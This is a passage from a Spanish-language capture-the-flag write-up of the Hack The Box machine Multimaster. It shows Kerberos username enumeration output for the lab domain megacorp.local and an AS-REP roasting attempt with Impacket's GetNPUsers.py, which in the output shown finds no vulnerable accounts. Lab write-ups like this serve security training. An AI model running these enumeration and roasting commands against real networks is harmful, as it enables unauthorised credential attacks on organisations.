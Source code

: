```null
2023/01/24 16:24:13 >  [+] VALID USERNAME:	ckane@megacorp.local
2023/01/24 16:24:13 >  [+] VALID USERNAME:	kpage@megacorp.local
2023/01/24 16:24:13 >  [+] VALID USERNAME:	okent@megacorp.local
2023/01/24 16:24:13 >  [+] VALID USERNAME:	aldom@megacorp.local
2023/01/24 16:24:13 >  [+] VALID USERNAME:	james@megacorp.local
2023/01/24 16:24:13 >  [+] VALID USERNAME:	jorden@megacorp.local
2023/01/24 16:24:13 >  [+] VALID USERNAME:	ilee@megacorp.local
2023/01/24 16:24:13 >  [+] VALID USERNAME:	rmartin@megacorp.local
2023/01/24 16:24:13 >  [+] VALID USERNAME:	zpowers@megacorp.local
2023/01/24 16:24:13 >  [+] VALID USERNAME:	sbauer@megacorp.local
2023/01/24 16:24:13 >  [+] VALID USERNAME:	zac@megacorp.local
2023/01/24 16:24:13 >  Done! Tested 15 usernames (13 valid) in 5.246 seconds

```

El panel de inicio de sesión parece no estar funcional

<img src="/writeups/assets/img/Multimaster-htb/3.png" alt="">

Guardo los usuarios válidos en otro diccionario

Intento efectuar un ASPRepRoast Attack

```null
GetNPUsers.py megacorp.local/ -no-pass -usersfile valid_users
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User nbourne doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User alyx doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ckane doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User kpage doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User okent doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User aldom doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User james doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User jorden doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ilee doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User rmartin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User zpowers doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sbauer doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User zac doesn't have UF_DONT_REQUIRE_PREAUTH set
```
